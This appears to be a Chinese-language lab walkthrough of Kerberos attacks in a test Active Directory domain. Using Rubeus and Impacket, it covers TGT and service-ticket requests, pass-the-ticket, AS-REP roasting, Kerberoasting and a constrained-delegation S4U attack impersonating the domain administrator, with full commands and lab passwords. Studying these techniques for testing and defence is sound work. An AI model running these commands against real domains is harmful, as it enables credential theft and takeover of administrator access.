注：Rubeus没有发布预构建二进制版本，需要自行使用vs编译

# 一、申请TGT
明文密码申请TGT，base64格式打印出来，并导入到内存，导出成文件

```powershell
Rubeus.exe asktgt /domain:sec.com /user:administrator /password:Az123456@ /nowrap /ptt /debug
```





# 二、申请ST
## 1、申请TGT
第一步申请的TGT复用

## 2、申请ST
使用上一步导出的TGT去申请ST

```powershell
Rebeus.exe asktgs /service:"cifs/win2019-1.sec.com" /nowrap /ptt /ticket:ticket.kirbis
```





# 三、Rubeus导入票据
这里可以选择使用文件导入，或者base64导入

```powershell
Rubeus.exe ptt /ticket:ticket.kirbi
Rubeus.exe ptt /ticket:[base64 code]
```

# 四、AS-REP Roasting攻击
该工具会自动搜索域内不要求kerberos预身份验证的用户，并以该用户身份发送AS-REQ，域控会直接返回AS-REP包，内含net-ntlm

在默认情况下，AD域默认启用预身份验证



但是可以在用户配置里禁用，以testuser为例



可以看到，Rubeus成功检索到该用户



使用John即可破解，这里不演示



# 五、Kerberoasting攻击
[https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)

```powershell
Rubeus.exe kerberoat /format:json /outfile:hash.txt
```

服务账户的意义是为了给某个服务提供一个<font style="color:#DF2A3F;">限制资源</font>的账户（SPN），虽然任意域用户都可以向任意服务申请一张ST票据，但是这张ST票据去访问服务的时候，KDC只负责发放ST票据，至于实际有没有权限访问，还得看服务端认不认可ST票据内用户权限。

就比如下图klist，虽然以testnoadmin申请到了ldap/win2019-1.sec.com/sec.com的ST票据，但是客户端实际没有权限访问win2019-1的ldap服务，所以申请了票据但是用不出去。



但是如果申请回来的ST票据，是RC4加密的，就有机会穷举破解，因为RC4-HMAC相对于图中的AES-256不安全



# 六、委派攻击
## 1、约束性委派攻击
首先创造一个机器账户machine$

```powershell
impacket-addcomputer sec.com/testnoadmin:Az123456@! -computer-name machine1$ -computer-pass Az123456@ -dc-ip 172.16.80.189
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account machine1$ with password Az123456@.
```

发起约束性委派攻击，以machine1$身份委派获取cifs/win2019-1.sec.com的ST票据

首先计算aes256/rc4，因为后续的委派攻击只能使用这两种密文

```powershell
.\Rubeus hash /user:machine1$ /password:Az123456@ /domain:sec.com
```



设置委派



然后发起约束性委派攻击，分三步：

```powershell
Rubeus.exe s4u /user:machine1$ /rc4:[rc4_hash] /domain:sec.com /msdsspn:cifs/win2019-1.sec.com /impersonatuser:administrator /ptt
```

第一步：使用自己的hash向KDC申请一个TGT票据



第二步：服务1代表用户申请一个获得针对服务1自身的kerberos服务票据(S4U2SELF)，这一步生成的TGS票据是可转发的TGS票据。



第三步：服务1使用来自用户的授权( 在S4U2SELF阶段获得的可转发的TGS)，然后用该TGS(放在AddtionTicket里面)向KDC请求访问服务2的TGS，返回的TGS是可转发的。







PS:我们不仅可以访问约束委派配置中用户可以模拟的服务，还可以访问使用与模拟帐户权限允许的任何服务。（因为未检查 SPN，只检查权限）。